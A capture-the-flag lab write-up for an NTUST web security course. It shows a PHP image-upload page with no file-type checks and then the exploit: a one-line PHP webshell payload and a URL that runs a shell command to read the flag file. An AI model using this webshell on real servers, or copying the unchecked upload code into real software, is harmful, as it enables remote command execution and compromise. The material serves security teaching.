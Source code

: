 ```yaml
---
title: Simple Web 0x04(Lab - Image Space 0x01)
tags: [NTUSTWS, CTF, Web]

category: "Security/Course/NTUST WS/Upload"
---
```


# Simple Web 0x04(Lab - Image Space 0x01)
###### tags: `NTUSTWS` `CTF` `Web`
Challenge: http://h4ck3r.quest:9010

## Source code
:::spoiler code
```php!=
 <?php
    if (isset($_GET['source'])) {
        highlight_file(__FILE__);
        exit;
    }
?>
<h1>Image Uploader</h1>
<p>Only supports: jpg, jpeg, png</p>
<!-- upload form -->
<form action="index.php" method="POST" enctype="multipart/form-data">
    <input type="file" name="image_file">
    <input type="submit" value="Upload">
</form>
<p>
    <a href="/?source">View Source</a>
</p>
<?php
    if (!isset($_FILES['image_file'])) {
        die('Give me a file!');
    }

    $filename = basename($_FILES['image_file']['name']);

    $prefix = bin2hex(random_bytes(8));
    move_uploaded_file($_FILES['image_file']['tmp_name'], "images/${prefix}_${filename}");
    echo "<img src=\"images/${prefix}_${filename}\">";
?>
```
:::

There's no any protection. Therefore, upload `webshell` and get shell

## Exploit - `webshell`
Payload: `<?php system($_GET["sh"]); ?>`
`view-source:http://h4ck3r.quest:9010/images/09956fc7c4f424b0_simple.php?sh=cat%20../../../../flag`
